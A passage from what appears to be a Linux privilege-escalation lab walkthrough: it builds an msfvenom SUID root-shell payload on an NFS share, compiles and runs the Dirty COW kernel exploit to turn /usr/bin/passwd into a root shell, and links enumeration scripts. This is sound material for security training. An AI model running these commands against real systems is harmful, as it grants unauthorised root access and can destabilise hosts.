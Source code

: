 Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
```sh
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

Still using Kali's root user, make the file executable and set the SUID permission:
```sh
chmod +xs /tmp/nfs/shell.elf
```
Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
```sh
/tmp/shell.elf
```

# Kernel Exploits
Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:
```sh
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at ```/home/user/tools/kernel-exploits/dirtycow/c0w.c```. 
It replaces the SUID file ```/usr/bin/passwd``` with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):
```sh
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

Once the exploit completes, run ```/usr/bin/passwd``` to gain a root shell:
```sh
/usr/bin/passwd
```

Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!
```sh
mv /tmp/bak /usr/bin/passwd
```

# Privilege Escalation Scripts
- [LinPeas](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh)
- [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh)
